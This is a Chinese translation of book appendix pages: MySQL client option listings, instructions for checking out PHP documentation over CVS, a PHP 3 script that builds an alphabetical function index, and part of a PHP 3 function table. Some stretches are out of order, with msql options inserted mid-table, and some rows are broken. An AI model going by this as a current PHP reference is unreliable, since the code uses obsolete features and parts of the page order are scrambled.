文本文件的基本名称必须是要使用的表的名称。如果使用套接字连接到 MySQL 服务器，服务器将直接打开并读取文本文件。在其他情况下，客户端将打开文本文件。SQL 命令 `LOAD DATA INFILE` 用于导入行数据。

用法：`./mysqlimport [OPTIONS] database textfile...`

- `-#`, `--debug[=...]`
  - 输出调试日志。通常格式为 `d:t:o,filename`
- `-?`, `--help`
  - 显示此帮助并退出
- `-C`, `--compress`
  - 在服务器/客户端协议中使用压缩
- `-d`, `--delete`
  - 先删除表中的所有行
- `-f`, `--force`
  - 即使出现 SQL 错误也继续执行
- `-h`, `--host=...`
  - 连接到指定主机
- `-i`, `--ignore`
  - 如果发现重复的唯一键，则保留旧行
- `-l`, `--lock-tables`
  - 锁定所有表为写入模式
- `-L`, `--local`
  - 通过客户端读取所有文件
- `-p`, `--password[=...]`
  - 连接到服务器时使用的密码。如果未给出密码，则从终端提示输入。
- `-P`, `--port=...`
  - 用于连接的端口号
- `-r`, `--replace`
  - 如果发现重复的唯一键，则替换旧行。
- `-s`, `--silent`
  - 静默模式
- `-S`, `--socket=...`
  - 用于连接的套接字文件
- `-u`, `--user=#`
  - 登录用户，如果不是当前用户则指定
- `-v`, `--verbose`
  - 打印各阶段的信息
- `-V`, `--version`
  - 输出版本信息并退出
- `--fields-terminated-by=...`
  - 文本文件中的字段以 ... 结尾
- `--fields-enclosed-by=...`
  - 导入文件中的字段以 ... 包围
- `--fields-optionally-enclosed-by=...`
  - 导入文件中的字段可选择以 ... 包围
- `--fields-escaped-by=...`
  - 导入文件中的字段以 ... 转义
- `--lines-terminated-by=...`
  - 导入文件中的行以 ... 结尾

---

**mysqlshow** — 该程序显示 MySQL 管理的数据库、表和字段。

### 清单 C.8 mysqlshow—help 的编辑结果

```
Usage: ./mysqlshow [OPTIONS] [database [table [field]]]
```


## 附录 D

PHP 手册对其函数的描述非常出色。然而，它并未提供所有函数的字母顺序列表。本附录将向您展示如何从官方仓库获取文档，并开发一个列出函数的应用程序。

当你在凌晨 1 点苦思冥想一个难题时，拥有最新的文档至关重要。而依赖远程 Web 服务器则是一种赌博。如果那个服务器宕机了怎么办？为了避免这些问题，我喜欢在本地计算机上保存最新的文档。您也可以这样做。只需遵循以下步骤：

1.  `cd /usr/local/`——使用此目录运行 **cvs** 命令意味着 Stage 未被设置；您的 PHP 文档将被放置在 `/usr/local/phpdoc` 中。
2.  `cvs -d :pserver:cvsread@cvs.php.net:/repository login`——请仔细正确地输入。连接到 CVS 仓库并尝试登录。当提示输入密码时，请输入 **phpfi**。
3.  `cvs -z3 -d :pserver:cvsread@cvs.php.net:/repository checkout phpdoc`——下载文档文件。
4.  `cd /usr/local/phpdoc`——连接到文档目录，以便您可以验证文件是否已正确下载。

在任何时候，您都可以连接到 `/usr/local/phpdoc` 并执行以下命令来更新您的 PHP 文档：

```
cvs -z3 update -d
```

## 生成 PHP 函数列表

为了按字母顺序快速生成函数列表，我编写了如清单 D.1 所示的程序。最初，我打算简单地列出函数名称及其单行描述。但是，正如您从图 D.1 中看到的那样，该程序有一些额外的功能。

**清单 D.1** *parse.php3—按字母顺序显示 PHP 的函数列表，支持文本或 HTML 格式*

```php
<?php
  // Returns a string containing an entire file.
  function read_file_into_buffer($filename) {
    $ary_lines = file($filename);
    $contents  = "";
    while (list($key, $value) = each($ary_lines)) {
      $contents .= $value;
    }

    return($contents);
  }
  // This is the location where the function sgml
  // files are stored.
  $dir_name = '/usr/storage/cvs/phpdoc/functions/';
  // Iterate over the files inside the function
  // directory. The . and ..
  $id = opendir($dir_name);
  while ($file = readdir($id)) {
      if (is_file("$dir_name$file") &&
          preg_match("/sgml$/", $file)
      )
      {
          $ary_files[$file] = '1';
      }
  }
  closedir($id);
  // Read each file and parse out the information about
  // each function. Each file can contain information
  // about more than one function.
  while (list($file_sgml, $value) = each($ary_files)) {
      $temp = read_file_into_buffer("$dir_name$file_sgml");
      // In order to determine the pattern to match, I peeked
      // into the sgml files. The first parentheses
      // finds the name of the html file that describes the
      // current function. The second parentheses picks up
      // the function name. And the final parentheses grabs
      // the one-line description.
      $pattern = '!<refentry id="(.+?)">.+?';
      $pattern .= '<refname>(.+?)</refname>.+?';
      $pattern .= '<refpurpose>(.+?)</refpurpose>!ms';
      preg_match_all($pattern, $temp, $matches);
      // Iterate over the function names. Notice how much
      // information is being attached to each function name.
      // needed, you could add even more just by adding
      // another key-value pair to the list.
      while (list($key, $value) = each($matches[2])) {
          $ary_functions[trim(strtoupper($value))] = array(
              'name'         => $value
              ,'description' => $matches[3][$key]
              ,'file_sgml'   => preg_replace("/\.sgml$/", "",
                $file_sgml)
              ,'file_function'=> $matches[1][$key]
          );
      }
  }
  // Sort the array.
  ksort($ary_functions);
  // If you need the function list in text form, add
  // "type=text" to the url when this script is invoked.
  if ($type == 'text') {
      for(
          reset($ary_functions);
          $key = key($ary_functions);
          next($ary_functions)
      ) {
          // Information about each function is displayed
          // separated by vertical bars.
          echo $ary_functions[$key]['name'];
          echo '|';
          echo $ary_functions[$key]['file_sgml'];
          echo '|';
          echo $ary_functions[$key]['description'];
          echo '<br>';
      }
  }
  else {
      // This batch of code iterates over the function list,
      // finding the first function that begins with an "a",
      // the first function beginning with "b", and so on.
      // Each of these function names are surrounded with an
      // anchor tag and all of the tags are concatenated into
      // $str_index.
      $old_letter = '';
      $str_index = '';
      for(
          reset($ary_functions);
          $key = key($ary_functions);
          next($ary_functions)
      ) {
          if ($old_letter != substr($key, 0, 1)) {
              $letter = substr($key, 0, 1);
              $str_index .= '<b><a href="#';
              $str_index .= $key;
              $str_index .= '"><font color="blue">';
              $str_index .= $letter;
              $str_index .= '</font></a></b>&nbsp;&nbsp;';
              $old_letter = $letter;
          }
      }

      $old_letter = '';
      for(
          reset($ary_functions);
          $key = key($ary_functions);
          next($ary_functions)
      ) {
          // Display an HTML anchor so the index can
          // find each function.
          echo "<a name=\"$key\"></a>";
          // If the current function heralds a letter change.
          // then display the index.
          if ($old_letter != substr($key, 0, 1)) {
              $old_letter = substr($key, 0, 1);
              echo "<center>$str_index</center><br>";
          }
          // Display the information about each function.
          echo '<a href="/phpdocs/';
          echo $ary_functions[$key]['file_function'];
          echo '.html">';
          echo '<b><font color="blue">';
          echo $ary_functions[$key]['name'];
          echo '</font></b></a><br>';
          echo '<dd>Description:&nbsp;';
          echo $ary_functions[$key]['description'];
          echo '</dd>';
          echo '<dd>Group:&nbsp;';
          echo '<a href="/phpdocs/ref.';
          echo $ary_functions[$key]['file_sgml'];
          echo '.html">';
          echo '<font color="blue">';
          echo $ary_functions[$key]['file_sgml'];
          echo '</a></font></dd>';
          echo '<br>';
      }
  }
?>
```

可以通过访问 http://www.mtolive.com/phpbook/xd/parse.php3?type=html 查看此脚本的运行效果。

## 按字母顺序排列的 PHP 函数

以下函数列表是从 PHP 3.0.11 生成的。在学习 PHP 时，我经常想要一个特定的函数，但不知道它属于哪个组。像下面这样一个方便、简洁的列表本可以为我节省时间。

**表 D.1** 按字母顺序排列的 PHP 函数

| 函数名称 | 组名称 | 描述 |
|--------------|-----------|-------------|
| Abs | MATH | 绝对值 |
| Acos | MATH | 反余弦 |
| ada_afetch | ADABAS | 将结果行获取到数组中 |
| ada_autocommit | ADABAS | 切换自动提交行为 |
| ada_close | ADABAS | 关闭与 Adabas D 服务器的连接 |
| ada_commit | ADABAS | 提交事务 |
| ada_connect | ADABAS | 连接到 Adabas D 数据源 |
| ada_exec | ADABAS | 准备并执行 SQL 语句 |
| ada_fetchrow | ADABAS | 从结果集中获取一行 |
| ada_fieldname | ADABAS | 获取列名 |

---

msql 程序的命令行选项：

-   `-d, --debug=...` 输出调试日志。通常格式是 'd:t:o,filename`
-   `-C, --compress` 在服务器/客户端协议中使用压缩
-   `-h, --host=...` 连接到主机
-   `-k, --keys` 显示表的键信息
-   `-p, --password[=...]` 连接到服务器时使用的密码。如果未给出密码，则从终端询问。
-   `-P --port=...` 连接使用的端口号
-   `-S --socket=...` 连接使用的套接字文件
-   `-u, --user=#` 登录用户（如果非当前用户）
-   `-V, --version` 输出版本信息并退出

如果最后一个参数包含 shell 通配符（* 或 ?），则仅显示与通配符匹配的内容。如果未给出数据库名称，则显示所有匹配的数据库。如果未给出表名，则显示数据库中所有匹配的表。如果未给出字段名，则显示表中所有匹配的字段和字段类型。

-   **perror**——此程序提供数字错误代码的简短文本描述。
-   **replace**——此程序将一个字符串替换为另一个字符串。它由 msql2mysql 程序使用，但您也可以使用它。


## **表 D.1** PHP 函数按 *字母顺序* 排列（续）

| 函数名 | 分组名 | 描述 |
| --- | --- | --- |
| ada_fieldnum | ADABAS | 获取列号 |
| ada_fieldtype | ADABAS | 获取字段的数据类型 |
| ada_freeresult | ADABAS | 释放与结果关联的资源 |
| ada_numfields | ADABAS | 获取结果中的列数 |
| ada_numrows | ADABAS | 结果中的行数 |
| ada_result | ADABAS | 从结果中获取数据 |
| ada_resultall | ADABAS | 以 HTML 表格形式打印结果 |
| ada_rollback | ADABAS | 回滚事务 |
| AddSlashes | STRINGS | 用反斜杠引用字符串 |
| apache_lookup_uri | APACHE | 对指定的 URI 执行部分请求并返回其所有信息 |
| apache_note | APACHE | 获取和设置 Apache 请求注释 |
| array | ARRAY | 创建数组 |
| array_walk | ARRAY | 将用户函数应用于数组的每个成员 |
| arsort | ARRAY | 对数组进行反向排序并保持索引关联 |
| Asin | MATH | 反正弦 |
| asort | ARRAY | 对数组排序并保持索引关联 |
| aspell_check | ASPELL | 检查一个单词 |
| aspell_check-raw | ASPELL | 检查一个单词，不更改其大小写或尝试修剪 |
| aspell_new | ASPELL | 加载新字典 |
| aspell_suggest | ASPELL | 建议单词的拼写 |
| Atan | MATH | 反正切 |
| Atan2 | MATH | 两个变量的反正切 |
| base64_decode | URL | 解码 MIME base64 编码的数据 |
| base64_encode | URL | 用 MIME base64 编码数据 |
| basename | FILESYSTEM | 返回路径中的文件名部分 |
| base_convert | MATH | 在任意进制之间转换数字 |
| bcadd | BC | 将两个任意精度数字相加 |
| bccomp | BC | 比较两个任意精度数字 |
| bcdiv | BC | 将两个任意精度数字相除 |
| bcmod | BC | 获取任意精度数字的模数 |
| bcmul | BC | 将两个任意精度数字相乘 |
| bcpow | BC | 将一个任意精度数字提高到另一个数字 |
| bcscale | BC | 设置所有 bc 数学函数的默认精度参数 |
| bcsqrt | BC | 获取任意精度数字的平方根 |
| bcsub | BC | 从另一个任意精度数字中减去一个 |
| bin2hex | STRINGS | 将二进制数据转换为十六进制表示 |
| BinDec | MATH | 二进制转十进制 |
| Ceil | MATH | 向上取整 |
| chdir | DIR | 更改目录 |
| checkdate | DATETIME | 验证日期/时间 |
| checkdnsrr | NETWORK | 检查与给定 Internet 主机名或 IP 地址对应的 DNS 记录 |
| chgrp | FILESYSTEM | 更改文件组 |
| chmod | FILESYSTEM | 更改文件模式 |
| Chop | STRINGS | 移除尾部空白 |
| chown | FILESYSTEM | 更改文件所有者 |
| Chr | STRINGS | 返回特定字符 |
| chunk_split | STRINGS | 将字符串分割成更小的块 |
| clearstatcache | FILESYSTEM | 清除文件状态缓存 |
| closedir | DIR | 关闭目录句柄 |
| closelog | NETWORK | 关闭与系统日志记录器的连接 |
| connection_aborted | MISC | 如果客户端断开连接则返回 true |
| connection_status | MISC | 返回连接状态位字段 |
| connection_timeout | MISC | 如果脚本超时则返回 true |
| convert_cyr_string | STRINGS | 从一种西里尔字符集转换为另一种 |
| copy | FILESYSTEM | 复制文件 |
| Cos | MATH | 余弦 |
| count | ARRAY | 计算变量中的元素数 |
| cpdf_add_annotation | CPDF | 添加注释 |
| cpdf_add_outline | CPDF | 为当前页面添加书签 |
| cpdf_arc | CPDF | 绘制圆弧 |
| cpdf_begin_text | CPDF | 开始文本部分 |
| cpdf_circle | CPDF | 绘制圆形 |
| cpdf_clip | CPDF | 裁剪到当前路径 |
| cpdf_close | CPDF | 关闭 PDF 文档 |
| cpdf_closepath | CPDF | 关闭路径 |
| cpdf_closepath_fill_stroke | CPDF | 关闭、填充并描边当前路径 |
| cpdf_closepath_stroke | CPDF | 关闭路径并沿路径绘制线条 |
| cpdf_continue_text | CPDF | 在下一行输出文本 |
| cpdf_curveto | CPDF | 绘制曲线 |
| cpdf_end_text | CPDF | 结束文本部分 |
| cpdf_fill | CPDF | 填充当前路径 |
| cpdf_fill_stroke | CPDF | 填充并描边当前路径 |
| cpdf_finalize | CPDF | 结束文档 |
| cpdf_finalize_page | CPDF | 结束页面 |
| cpdf_import_jpeg | CPDF | 打开一个 JPEG 图像 |
| cpdf_lineto | CPDF | 绘制直线 |
| cpdf_moveto | CPDF | 设置当前点 |
| cpdf_open | CPDF | 打开一个新的 PDF 文档 |
| cpdf_output_buffer | CPDF | 在内存缓冲区中输出 PDF 文档 |
| cpdf_page_init | CPDF | 开始新页面 |
| cpdf_place_inline_image | CPDF | 在页面上放置图像 |
| cpdf_rect | CPDF | 绘制矩形 |
| cpdf_restore | CPDF | 恢复先前保存的环境 |
| cpdf_rlineto | CPDF | 绘制直线 |
| cpdf_rmoveto | CPDF | 设置当前点 |
| cpdf_rotate | CPDF | 设置旋转角度 |
| cpdf_save | CPDF | 保存当前环境 |
| cpdf_save_to_file | CPDF | 将 PDF 文档写入文件 |
| cpdf_scale | CPDF | 设置缩放 |
| cpdf_setdash | CPDF | 设置虚线模式 |
| cpdf_setflat | CPDF | 设置平滑度 |
| cpdf_setgray | CPDF | 将绘图和填充颜色设置为灰色值 |
| cpdf_setgray_fill | CPDF | 将填充颜色设置为灰色值 |
| cpdf_setgray_stroke | CPDF | 将绘图颜色设置为灰色值 |
| cpdf_setlinecap | CPDF | 设置线帽参数 |
| cpdf_setlinejoin | CPDF | 设置线连接参数 |
| cpdf_setlinewidth | CPDF | 设置线宽 |
| cpdf_setmiterlimit | CPDF | 设置斜接限制 |
| cpdf_setrgbcolor | CPDF | 将绘图和填充颜色设置为 RGB 颜色值 |
| cpdf_setrgbcolor_fill | CPDF | 将填充颜色设置为 RGB 颜色值 |
| cpdf_setrgbcolor_stroke | CPDF | 将绘图颜色设置为 RGB 颜色值 |
| cpdf_set_char_spacing | CPDF | 设置字符间距 |
| cpdf_set_creator | CPDF | 设置 PDF 文档中的创建者字段 |
| cpdf_set_current_page | CPDF | 设置当前页面 |
| cpdf_set_font | CPDF | 选择当前字体和大小 |
| cpdf_set_horiz_scaling | CPDF | 设置文本的水平缩放 |
| cpdf_set_keywords | CPDF | 设置 PDF 文档的关键字字段 |
| cpdf_set_leading | CPDF | 设置文本行之间的距离 |
| cpdf_set_page_animation | CPDF | 设置页面之间的持续时间 |
| cpdf_set_subject | CPDF | 设置 PDF 文档的主题字段 |
| cpdf_set_text_matrix | CPDF | 设置文本矩阵 |
| cpdf_set_text_pos | CPDF | 设置文本位置 |
| cpdf_set_text_rendering | CPDF | 确定文本的渲染方式 |
| cpdf_set_text_rise | CPDF | 设置文本上升 |
| cpdf_set_title | CPDF | 设置 PDF 文档的标题字段 |
| cpdf_set_word_spacing | CPDF | 设置单词之间的间距 |
| cpdf_show | CPDF | 在当前位置输出文本 |
| cpdf_show_xy | CPDF | 在指定位置输出文本 |
| cpdf_stringwidth | CPDF | 返回当前字体中文本的宽度 |
| cpdf_stroke | CPDF | 沿路径绘制线条 |
| cpdf_text | CPDF | 带参数输出文本 |
| cpdf_translate | CPDF | 设置坐标系原点 |
| crypt | STRINGS | DES 加密字符串 |
| current | ARRAY | 返回数组中的当前元素 |
| date | DATETIME | 格式化本地时间/日期 |
| dbase_add_record | DBASE | 向 dBase 数据库添加记录 |
| dbase_close | DBASE | 关闭 dBase 数据库 |
| dbase_create | DBASE | 创建 dBase 数据库 |
| dbase_delete_record | DBASE | 从 dBase 数据库中删除记录 |
| dbase_get_record | DBASE | 从 dBase 数据库中获取记录 |
| dbase_numfields | DBASE | 查找 dBase 数据库中有多少字段 |
| dbase_numrecords | DBASE | 查找 dBase 数据库中有多少记录 |
| dbase_open | DBASE | 打开 dBase 数据库 |
| dbase_pack | DBASE | 压缩 dBase 数据库 |
| dbase_replace_record | DBASE | 替换 dBase 数据库中的记录 |
| dba_close | DBA | 关闭数据库 |
| dba_delete | DBA | 删除由键指定的条目 |
| dba_exists | DBA | 检查键是否存在 |
| dba_fetch | DBA | 获取由键指定的数据 |
| dba_firstkey | DBA | 获取第一个键 |
| dba_insert | DBA | 插入条目 |
| dba_nextkey | DBA | 获取下一个键 |
| dba_open | DBA | 打开数据库 |
| dba_optimize | DBA | 优化数据库 |
| dba_popen | DBA | 持久打开数据库 |
| dba_replace | DBA | 替换或插入条目 |
| dba_sync | DBA | 同步数据库 |


## 附录 D

### 表 D.1 PHP 函数按字母顺序排列（续）

| 函数名 | 组名 | 描述 |
|---|---|---|
| dblist | DBM | 描述正在使用的 dbm 兼容库 |
| dbmclose | DBM | 关闭一个 dbm 数据库 |
| dbmdelete | DBM | 从 dbm 数据库中删除指定键的值 |
| dbmexists | DBM | 判断 dbm 数据库中是否存在指定键的值 |
| dbmfetch | DBM | 从 dbm 数据库中获取指定键的值 |
| dbmfirstkey | DBM | 从 dbm 数据库中检索第一个键 |
| dbminsert | DBM | 在 dbm 数据库中插入指定键的值 |
| dbmnextkey | DBM | 从 dbm 数据库中检索下一个键 |
| dbmopen | DBM | 打开一个 dbm 数据库 |
| dbmreplace | DBM | 替换 dbm 数据库中指定键的值 |
| debugger_off | NETWORK | 禁用内部 PHP 调试器 |
| debugger_on | NETWORK | 启用内部 PHP 调试器 |
| DecBin | MATH | 十进制转二进制 |
| DecHex | MATH | 十进制转十六进制 |
| DecOct | MATH | 十进制转八进制 |
| delete | FILESYSTEM | 一个虚拟的手册条目 |
| die | MISC | 输出一条消息并终止当前脚本 |
| dir | DIR | 目录类 |
| dirname | FILESYSTEM | 返回路径中的目录名部分 |
| diskfreespace | FILESYSTEM | 返回目录中的可用空间 |
| dl | DL | 在运行时加载 PHP 扩展 |
| doubleval | VAR | 获取变量的浮点值 |
| each | ARRAY | 返回数组中的下一个键值对 |
| easter_date | CALENDAR | 获取给定年份复活节午夜的 UNIX 时间戳 |
| easter_days | CALENDAR | 获取给定年份复活节距 3 月 21 日的天数 |
| echo | STRINGS | 输出一个或多个字符串 |
| empty | VAR | 判断一个变量是否已设置 |
| end | ARRAY | 将数组的内部指针指向其最后一个元素 |
| ereg | REGEX | 正则表达式匹配 |
| eregi | REGEX | 不区分大小写的正则表达式匹配 |
| eregi_replace | REGEX | 不区分大小写的正则表达式替换 |
| ereg_replace | REGEX | 正则表达式替换 |
| error_log | INFO | 将错误消息发送到指定位置 |
| error_reporting | INFO | 设置报告哪些 PHP 错误 |
| escapeshellcmd | EXEC | 转义 shell 元字符 |
| eval | MISC | 将字符串作为 PHP 代码进行求值 |
| exec | EXEC | 执行一个外部程序 |
| exit | MISC | 终止当前脚本 |
| Exp | MATH | e 的……次幂 |
| explode | STRINGS | 按字符串分割字符串 |
| extension_loaded | INFO | 检查某个扩展是否已加载 |
| extract | MISC | 从数组中将变量导入符号表 |
| fclose | FILESYSTEM | 关闭已打开的文件指针 |
| fdf_close | FDF | 关闭一个 FDF 文档 |
| fdf_create | FDF | 创建一个新的 FDF 文档 |
| fdf_get_file | FDF | 获取 /F 键的值 |
| fdf_get_status | FDF | 获取 /STATUS 键的值 |
| fdf_get_value | FDF | 获取字段的值 |
| fdf_next_field_name | FDF | 获取下一个字段名 |
| fdf_open | FDF | 打开一个 FDF 文档 |
| fdf_save | FDF | 保存一个 FDF 文档 |
| fdf_set_ap | FDF | 设置字段的外观 |
| fdf_set_file | FDF | 设置 /F 键的值 |
| fdf_set_status | FDF | 设置 /STATUS 键的值 |
| fdf_set_value | FDF | 设置字段的值 |
| feof | FILESYSTEM | 测试文件指针是否到达文件末尾 |
| fgetc | FILESYSTEM | 从文件指针获取一个字符 |
| fgetcsv | FILESYSTEM | 从文件指针获取一行并解析 CSV 字段 |
| fgets | FILESYSTEM | 从文件指针获取一行 |
| fgetss | FILESYSTEM | 从文件指针获取一行并去除 HTML 标签 |
| file | FILESYSTEM | 将整个文件读入数组 |
| fileatime | FILESYSTEM | 获取文件的最后访问时间 |
| filectime | FILESYSTEM | 获取文件的 inode 变更时间 |
| filegroup | FILESYSTEM | 获取文件所属组 |
| fileinode | 文件系统 | 获取文件的 inode |
| filemtime | FILESYSTEM | 获取文件的修改时间 |
| fileowner | FILESYSTEM | 获取文件所有者 |
| fileperms | FILESYSTEM | 获取文件权限 |
| filepro | FILEPRO | 读取并验证 map 文件 |
| filepro_fieldcount | FILEPRO | 获取 FilePro 数据库中的字段数量 |
| filepro_fieldname | FILEPRO | 获取字段的名称 |
| filepro_fieldtype | FILEPRO | 获取字段的类型 |
| filepro_fieldwidth | FILEPRO | 获取字段的宽度 |
| filepro_retrieve | FILEPRO | 从 FilePro 数据库中检索数据 |
| filepro_rowcount | FILEPRO | 获取 FilePro 数据库中的行数 |
| filesize | FILESYSTEM | 获取文件大小 |
| filetype | FILESYSTEM | 获取文件类型 |
| file_exists | FILESYSTEM | 检查文件是否存在 |
| flock | FILESYSTEM | 可移植的咨询式文件锁定 |
| Floor | MATH | 向下取整 |
| flush | STRINGS | 刷新输出缓冲区 |
| fopen | FILESYSTEM | 打开文件或 URL |
| fpassthru | FILESYSTEM | 输出文件指针上的所有剩余数据 |
| fputs | FILESYSTEM | 写入文件指针 |
| fread | FILESYSTEM | 二进制安全的文件读取 |
| FrenchToJD | CALENDAR | 将法兰西共和历日期转换为儒略日计数 |
| fseek | FILESYSTEM | 在文件指针上进行定位 |
| fsockopen | NETWORK | 打开 Internet 或 UNIX 域套接字连接 |
| ftell | FILESYSTEM | 获取文件指针的读/写位置 |
| function_exists | MISC | 如果给定函数已定义则返回 true |
| fwrite | FILESYSTEM | 二进制安全的文件写入 |
| getallheaders | APACHE | 获取所有 HTTP 请求头 |
| getdate | DATETIME | 获取日期/时间信息 |
| getenv | INFO | 获取环境变量的值 |
| gethostbyaddr | NETWORK | 获取与给定 IP 地址对应的 Internet 主机名 |
| gethostbyname | NETWORK | 获取与给定 Internet 主机名对应的 IP 地址 |
| gethostbynamel | NETWORK | 获取与给定 Internet 主机名对应的 IP 地址列表 |
| GetImageSize | IMAGE | 获取 GIF、JPG 或 PNG 图像的尺寸 |
| getlastmod | INFO | 获取页面最后修改时间 |
| getmxrr | NETWORK | 获取与给定 Internet 主机名对应的 MX 记录 |
| getmyinode | INFO | 获取当前脚本的 inode |
| getmypid | INFO | 获取 PHP 的进程 ID |
| getmyuid | INFO | 获取 PHP 脚本所有者的 UID |
| getrandmax | MATH | 显示最大可能的随机值 |
| getrusage | INFO | 获取当前资源使用情况 |
| gettimeofday | DATETIME | 获取当前时间 |
| gettype | VAR | 获取变量的类型 |
| get_cfg_var | INFO | 获取 PHP 配置选项的值 |
| get_current_user | INFO | 获取当前 PHP 脚本所有者的名称 |
| get_magic_quotes_gpc | INFO | 获取 magic quotes gpc 的当前活动配置设置 |
| get_magic_quotes_runtime | INFO | 获取 magic_quotes_runtime 的当前活动配置设置 |
| get_meta_tags | STRINGS | 从文件中提取所有 meta 标签的 content 属性并返回数组 |
| gmdate | DATETIME | 格式化 GMT/CUT 日期/时间 |
| gmmktime | DATETIME | 获取 GMT 日期的 UNIX 时间戳 |
| GregorianToJD | CALENDAR | 将公历日期转换为儒略日计数 |
| gzclose | ZLIB | 关闭已打开的 gz 文件指针 |
| gzeof | ZLIB | 测试 gz 文件指针是否到达文件末尾 |
| gzfile | ZLIB | 将整个 gz 文件读入数组 |
| gzgetc | ZLIB | 从 gz 文件指针获取一个字符 |
| gzgets | ZLIB | 从文件指针获取一行 |
| gzgetss | ZLIB | 从 gz 文件指针获取一行并去除 HTML 标签 |
| gzopen | ZLIB | 打开 gz 文件 |
| gzpassthru | ZLIB | 输出 gz 文件指针上的所有剩余数据 |
| gzputs | ZLIB | 写入 gz 文件指针 |
| gzread | ZLIB | 二进制安全的 gz 文件读取 |
| gzrewind | ZLIB | 重置 gz 文件指针的位置 |
| gzseek | ZLIB | 在 gz 文件指针上进行定位 |
| gztell | ZLIB | 获取 gz 文件指针的读/写位置 |
| gzwrite | ZLIB | 二进制安全的 gz 文件写入 |
| header | HTTP | 发送原始 HTTP 头 |
| HexDec | MATH | 十六进制转十进制 |
| htmlentities | STRINGS | 将所有适用的字符转换为 HTML 实体 |
| htmlspecialchars | STRINGS | 将特殊字符转换为 HTML 实体 |
| hw_Children | HW | 子对象的 ID |
| hw_ChildrenObj | HW | 子对象的记录 |
| hw_Close | HW | 关闭 Hyperwave 连接 |
| hw_Connect | HW | 打开一个连接 |
| hw_Cp | HW | 复制对象 |


### 表 D.1 PHP 函数按字母顺序排列（续）

| 函数名称 | 组名称 | 描述 |
| --- | --- | --- |
| hw_Deleteobject | HW | 删除对象 |
| hw_DocByAnchor | HW | 属于锚点的对象ID |
| hw_DocByAnchorObj | HW | 属于锚点的对象记录 |
| hw_DocumentAttributes | HW | hw_document的对象记录 |
| hw_DocumentBodyTag | HW | hw_document的body标签 |
| hw_DocumentContent | HW | 返回hw_document的内容 |
| hw_DocumentSetContent | HW | 设置/替换hw_document的内容 |
| hw_DocumentSize | HW | hw_document的大小 |
| hw_EditText | HW | 检索文本文档 |
| hw_Error | HW | 错误编号 |
| hw_ErrorMsg | HW | 返回错误消息 |
| hw_Free_Document | HW | 释放hw_document |
| hw_GetAnchors | HW | 文档锚点的对象ID |
| hw_GetAnchorsObj | HW | 文档锚点的对象记录 |
| hw_GetAndLock | HW | 返回对象记录并锁定对象 |
| hw_GetChildColl | HW | 子集合的对象ID |
| hw_GetChildCollObj | HW | 子集合的对象记录 |
| hw_GetChildDocColl | HW | 集合中子文档的对象ID |
| hw_GetChildDocCollObj | HW | 集合中子文档的对象记录 |
| hw_GetObject | HW | 对象记录 |
| hw_GetObjectByQuery | HW | 搜索对象 |
| hw_GetObjectByQueryColl | HW | 在集合中搜索对象 |
| hw_GetObjectByQueryCollObj | HW | 在集合中搜索对象 |
| hw_GetObjectByQueryObj | HW | 搜索对象 |
| hw_GetParents | HW | 父对象的ID |
| hw_GetParentsObj | HW | 父对象的记录 |
| hw_GetRemote | HW | 获取远程文档 |
| hw_GetRemoteChildren | HW | 获取远程文档的子项 |
| hw_GetSrcByDestObj | HW | 返回指向对象的锚点 |
| hw_GetText | HW | 检索文本文档 |
| hw_Identify | HW | 识别为用户 |
| hw_InCollections | HW | 检查对象ID是否在集合中 |
| hw_Info | HW | 连接信息 |
| hw_InsColl | HW | 插入集合 |
| hw_InsDoc | HW | 插入文档 |
| hw_InsertDocument | HW | 上传任意文档 |
| hw_InsertObject | HW | 插入对象记录 |
| hw_Modifyobject | HW | 修改对象记录 |
| hw_Mv | HW | 移动对象 |
| hw_New_Document | HW | 创建新文档 |
| hw_Objrec2Array | HW | 将对象记录的属性转换为对象数组 |
| hw_OutputDocument | HW | 打印hw_document |
| hw_pConnect | HW | 建立持久数据库连接 |
| hw_PipeDocument | HW | 检索任意文档 |
| hw_Root | HW | 根对象ID |
| hw_Unlock | HW | 解锁对象 |
| hw_Username | HW | 当前登录用户的名称 |
| hw_Who | HW | 当前登录用户列表 |
| ibase_close | IBASE | ibase_close ibase_query |
| ibase_connect | IBASE | ibase_connect ibase_pconnect |
| ibase_execute | IBASE | ibase_execute ibase_free_query |
| ibase_fetch_row | IBASE | ibase_fetch_row ibase_free_result |
| ibase_prepare | IBASE | ibase_prepare ibase_bind |
| ifxus_close_slob | IFX | 删除slob对象 |
| ifxus_create_slob | IFX | 创建一个slob对象并打开它 |
| ifxus_open_slob | IFX | 打开一个slob对象 |
| ifxus_read_slob | IFX | 从slob对象读取nbytes字节 |
| ifxus_seek_slob | IFX | 设置当前文件或寻址位置 |
| ifxus_tell_slob | IFX | 返回当前文件或寻址位置 |
| ifxus_write_slob | IFX | 将字符串写入slob对象 |
| ifx_affected_rows | IFX | 获取查询影响的行数 |
| ifx_blobinfile_mode | IFX | 设置所有select查询的默认blob模式 |
| ifx_byteasvarchar | IFX | 设置默认的字节模式 |
| ifx_close | IFX | 关闭Informix连接 |
| ifx_connect | IFX | 打开Informix服务器连接 |
| ifx_copy_blob | IFX | 复制给定的blob对象 |
| ifx_create_blob | IFX | 创建一个blob对象 |
| ifx_create_char | IFX | 创建一个char对象 |
| ifx_do | IFX | 执行先前准备好的SQL语句 |
| ifx_error | IFX | 返回最后一次Informix调用的错误代码 |
| ifx_errormsg | IFX | 返回最后一次Informix调用的错误消息 |
| ifx_fetch_row | IFX | 以枚举数组形式获取行 |
| ifx_fieldproperties | IFX | SQL字段属性列表 |
| ifx_fieldtypes | IFX | Informix SQL字段列表 |
| ifx_free_blob | IFX | 删除blob对象 |
| ifx_free_char | IFX | 删除char对象 |
| ifx_free_result | IFX | 释放查询的资源 |
| ifx_free_slob | IFX | 删除slob对象 |
| ifx_getsqlca | IFX | 获取查询后sqlca.sqlerrd[0..5]的内容 |
| ifx_get_blob | IFX | 返回blob对象的内容 |
| ifx_get_char | IFX | 返回char对象的内容 |
| ifx_htmltbl_result | IFX | 将查询的所有行格式化为HTML表格 |
| ifx_nullformat | IFX | 设置获取行时的默认返回值 |
| ifx_num_fields | IFX | 返回查询中的列数 |
| ifx_num_rows | IFX | 统计查询已获取的行数 |
| ifx_pconnect | IFX | 打开持久Informix连接 |
| ifx_prepare | IFX | 准备一个SQL语句以供执行 |
| ifx_query | IFX | 发送Informix查询 |
| ifx_textasvarchar | IFX | 设置默认的文本模式 |
| ifx_update_blob | IFX | 更新blob对象的内容 |
| ifx_update_char | IFX | 更新char对象的内容 |
| ignore_user_abort | MISC | 设置客户端断开连接是否应中止脚本执行 |
| ImageArc | IMAGE | 绘制部分椭圆 |
| ImageChar | IMAGE | 水平绘制一个字符 |
